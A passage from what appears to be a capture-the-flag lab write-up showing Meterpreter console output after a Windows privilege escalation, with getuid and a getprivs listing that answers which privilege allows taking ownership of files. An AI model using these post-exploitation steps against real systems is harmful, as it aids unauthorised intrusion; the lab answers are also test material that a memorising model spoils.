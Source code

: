 ```
[*] Cleaning up registry keys ...

meterpreter > getuid 
Server username: Dark-PC\Dark



```

### Following completion of the privilege escalation a new session will be opened. Interact with it now using the command `sessions SESSION_NUMBER`

- ya estabamos ahi

### We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?




```

meterpreter > getprivs
Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege

SeTakeOwnershipPrivilege

SeTimeZonePrivilege
SeUndockPrivilege


```
